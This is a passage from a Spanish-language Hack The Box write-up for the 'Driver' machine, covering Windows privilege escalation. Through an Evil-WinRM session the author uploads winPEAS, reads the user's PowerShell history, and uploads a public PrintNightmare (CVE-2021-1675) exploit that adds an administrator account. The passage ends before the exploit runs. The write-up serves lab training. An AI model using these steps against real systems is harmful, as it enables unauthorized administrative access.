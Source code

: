 
## Escalada de Privilegios

- Para enumerar el sistema podemos subir winPEASx64 <https://github.com/carlospolop/PEASS-ng/releases/tag/20240331-d41b024f>.

- Y lo subimos ala maquina.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> upload winPEASx64.exe

Info: Uploading /home/miguel/Hackthebox/Driver/content/winPEASx64.exe to C:\Users\tony\Documents\winPEASx64.exe

Data: 3183272 bytes of 3183272 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\tony\Documents>
```

- Lo mas interesante de todo lo que nos reporto el script fue el historial de `Powershell` del usuario con el que estamos y encontramos que ejecuta 3 comandos.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1
```

- Vemos que en el primero comando lo que esta intenta hacer es añadir una impresora, si buscamos vulnerabilidades para eso encontramos el siguiente <https://github.com/calebstewart/CVE-2021-1675> que lo que hace es que podemos crear un usuario Administrador donde nosotros indicamos el usuario y la contraseña.

```bash
Cloning into 'CVE-2021-1675'...
remote: Enumerating objects: 40, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 40 (delta 1), reused 1 (delta 1), pack-reused 37
Receiving objects: 100% (40/40), 127.17 KiB | 458.00 KiB/s, done.
Resolving deltas: 100% (9/9), done.
➜  content cd CVE-2021-1675
➜  CVE-2021-1675 git:(main) ls
CVE-2021-1675.ps1  README.md  nightmare-dll
```

- Ahora lo subimos.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> upload CVE-2021-1675.ps1

Info: Uploading /home/miguel/Hackthebox/Driver/content/CVE-2021-1675.ps1 to C:\Users\tony\Documents\CVE-2021-1675.ps1

Error: Upload failed. Check filenames or paths: No such file or directory - No such file or directory /home/miguel/Hackthebox/Driver/content/CVE-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> upload CVE-2021-1675.ps1

Info: Uploading /home/miguel/Hackthebox/Driver/content/CVE-2021-1675.ps1 to C:\Users\tony\Documents\CVE-2021-1675.ps1

Data: 238080 bytes of 238080 bytes copied

```